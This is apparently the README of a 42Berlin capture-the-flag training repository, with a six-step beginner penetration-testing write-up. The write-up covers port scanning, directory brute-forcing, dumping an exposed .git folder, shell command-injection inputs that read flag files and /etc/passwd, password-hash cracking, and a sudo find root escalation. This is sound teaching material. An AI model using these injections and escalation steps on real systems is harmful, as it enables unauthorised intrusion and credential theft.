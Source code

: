# 42Berlin CTF July 2024

This repo contains the service used for the CTF hosted in 42Berlin in July 2024.

In order to host it again, a new service needs to be deployed for it to submit the flags.
The project https://ctfd.io/ is an easy and customizable option.

## Content

The service is deployed using docker-compose. It creates a container running the following services:
- Port 22: SSH server with password authentication configured
- Port 4242: Python Flask server hosting the vulnerable service
- Port 42424: Python Flask server hosting a single page with a flag

The directory tools is not used in the deployment, it contains the files and tools provided to students
during the challenge.

## Write-Up

This CTF is meant to be an introduction to penetration testing, where very step is awarded with a flag.

### Flag 1
The first flag is after performing a port scan with nmap.

```$ nmap -p- hackme.42berlin.de```

After scanning all ports, nmap shows that the ports 22, 4242 and 42424 are open. The flag is present in the port 42424.

### Flag 2
The second flag is found after brute-forcing the directories running on port 4242. Also a .git folder is present.

```$ gobuster dir -u http://hackme.42berlin.de:4242 -w /usr/share/wordlists/fuzzing_wordlist.txt```

### Flag 3
For the third flag, it is necessary to read the source code of the application. In order to do this, the tool gitdumper is available.

```$ git-dumper http://hackme.42berlin.de/.git /tmp/ctf_git_dump```

After dumping the source code, two interesting things are found:
- The flag
- Credentials to authenticate as an administrator in the application

### Flag 4
After authenticaing, users can test the admin tool.

By analizing the code, a vulnerable line is found when executing the file check_command.sh. As the input is not properly sanitized,
users can execute arbitrary shell commands on the server.

Input to get the flag:
"$(cat /home/adrian/flag.txt)"

### Flag 5
To get the fifth flag, its necessary to read the /etc/passwd file on the server

Input to get the hash:
"$(cat /etc/passwd)"

To crack the hash, the tool john the ripper is provided.

```$ john hash.txt –wordlist=/usr/share/wordlists/password_wordlists.txt```

To get the flag, login via ssh as pedro:
```
$ ssh -p 22 pedro@hackme.42berlin.de
# cat /home/pedro/flag.txt
```
### Flag 6
The last flag can be found after rooting the server. To do this, basic Linux enumeration will do the trick.
```
$ sudo -l
User pedro may run the following commands on 6f8198e12837:
    (ALL) /bin/find
```
The find command can be used to escalate privileges if the command is executed with the root PID -> https://gtfobins.github.io/gtfobins/find/
```
$ sudo find / -exec /bin/bash \;
# cat /root/flag.txt
```